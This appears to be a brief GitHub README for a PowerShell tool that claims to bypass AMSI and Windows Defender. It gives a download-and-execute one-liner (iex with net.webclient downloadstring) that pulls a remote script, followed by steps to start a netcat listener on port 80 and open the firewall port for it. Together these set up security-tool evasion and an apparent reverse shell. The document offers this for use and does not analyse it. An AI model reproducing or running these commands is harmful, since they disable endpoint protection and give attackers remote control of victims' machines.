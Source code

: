 ## Basic Usage
This is a powershell script that bypass amsi / defender:)

How to execute ? 
```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/AeroWw/obstest/main/script.ps1')
```

## set up a listerner 

````
nc -lvnp 80
````
You need to make sure that you have the port allowed by you firewall
You can check by using 
````
ufw status
````
You can allow a port by using
````
ufw allow [port]
````


